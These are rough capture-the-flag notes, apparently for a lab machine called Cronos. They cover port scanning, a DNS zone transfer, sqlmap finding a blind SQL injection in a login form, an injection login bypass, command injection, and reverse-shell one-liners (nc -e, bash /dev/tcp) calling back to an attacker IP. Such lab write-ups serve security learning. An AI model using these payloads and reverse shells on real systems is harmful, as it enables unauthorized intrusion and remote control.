 ```
nmap -sC -sV 10.129.200.68                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-28 03:07 EDT
Nmap scan report for 10.129.200.68
Host is up (0.53s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 111.12 seconds

adding to /etc/hosts gets us awebsite

![](20230528031317.png)

uses laravel 10.x
 
forge.laravel?

checked for some basic vulnerabilities
https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/laravel

not found

$ nslookup    
> server cronos.htb
Default server: cronos.htb
Address: 10.129.200.68#53
> cronos.htb
;; communications error to 10.129.200.68#53: timed out
Server:         cronos.htb
Address:        10.129.200.68#53

Name:   cronos.htb
Address: 10.10.10.13
> 10.129.200.68
;; communications error to 10.129.200.68#53: timed out
68.200.129.10.in-addr.arpa      name = ns1.cronos.htb.

### dns domain transfer

`dig axfr @10.129.200.68 cronos.htb`

```
└─$ dig axfr @10.129.200.68 cronos.htb

; <<>> DiG 9.18.12-1-Debian <<>> axfr @10.129.200.68 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 308 msec
;; SERVER: 10.129.200.68#53(10.129.200.68) (TCP)
;; WHEN: Sun May 28 03:37:42 EDT 2023
```

```

looking at admin url we find that

![](20230528035153.png)


lets try to use sql map on this

```
POST / HTTP/1.1
Host: admin.cronos.htb
Content-Length: 29
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://admin.cronos.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://admin.cronos.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=k03eq4gj9eoqg770kdeue8bpn1
Connection: close

username=admin&password=admin
```

`sqlmap -r login.req --batch`

```
'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[04:04:39] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 6847 FROM (SELECT(SLEEP(5)))oEZg) AND 'kWak'='kWak&password=admin
---
[04:04:57] [INFO] the back-end DBMS is MySQL

```

we got something from sql map

we can do somethingwith the username
`admin'-- -`

![](20230528041057.png)

command injection exists

we cann run a nc server
we got a connect back but it went

trying pentest monkey: `nc -e /bin/sh 10.10.16.12 4444`

bash -i >& /dev/tcp/10.10.16.12/8081 0>&1

command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.12/4444+0>%261'%26host=
 
got a shell 

python -c 'import pty;pty.spawn("bash")'

getting to root means modifying laravel artisan files







### Lesson learnt

we can perform nslookup if dns is being provided by the target box. we can also do domain transfer to list all the subdomains.



